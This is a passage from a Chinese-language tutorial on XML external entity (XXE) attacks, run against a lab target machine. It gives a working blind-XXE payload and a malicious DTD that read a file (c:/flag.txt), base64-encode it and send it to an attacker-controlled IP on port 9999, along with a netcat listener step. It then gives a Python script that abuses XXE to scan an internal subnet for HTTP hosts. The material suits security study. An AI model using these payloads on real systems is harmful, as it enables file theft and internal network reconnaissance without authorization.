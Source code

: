 ### evil.dtd（在本地）

```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///c:/flag.txt">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://192.168.10.30:9999?p=%file;'>">  #本地IP
```

### Payload（在本地）

```
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://192.168.10.30/evil.dtd">  #本地IP
%remote;%int;%send;
]>
```

在evil.dtd中表示把返回数据传到本地的9999端口中，因此用nc监听9999端口就能看到靶机返回的数据，下图中红框标注的数据用base64解码便是靶机上 "c:/flag.txt" 的内容。

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/xxe4.png)

至于为什么返回数据是base64编码，也是为了不破环原来的XML语法，如果不编码则会报错。

关于这个 Blind XXE 利用方式的更多脑洞可以参阅文章底部的参考文章。

## 3、HTTP内网主机探测

话不多说，直接Show me the code，下面代码是我在前人的基础上做了一些修改，运行时注意代码为Python3代码。

### Payload（在本地）

```
import requests
import base64

def XXE(ip,string):
	try:
		xml = """<?xml version="1.0" encoding="ISO-8859-1"?>"""
		xml = xml + "\r\n" + """<!DOCTYPE foo [ <!ELEMENT foo ANY >"""
		xml = xml + "\r\n" + """<!ENTITY xxe SYSTEM """ + '"' + string + '"' + """>]>"""
		xml = xml + "\r\n" + """<xml>"""
		xml = xml + "\r\n" + """    <stuff>&xxe;</stuff>"""
		xml = xml + "\r\n" + """</xml>"""
		x = requests.post('http://192.168.38.132/xxe_test.php', data=xml, headers=headers, timeout=5).text	#记得修改靶机地址
		coded_string = x.split(' ')[-2]
		print(' [+]',ip,'Successfully Found !!!')
	except:	
		print(' [-]',ip,'Error')
		pass

if __name__ == '__main__':
	headers = {'Content-Type':'application/xml'}
	for i in range(1,255):
		ip = '192.168.38.' + str(i) 	#记得修改IP段
		string = 'php://filter/convert.base64-encode/resource=http://' + ip + '/'
		XXE(ip,string)
```
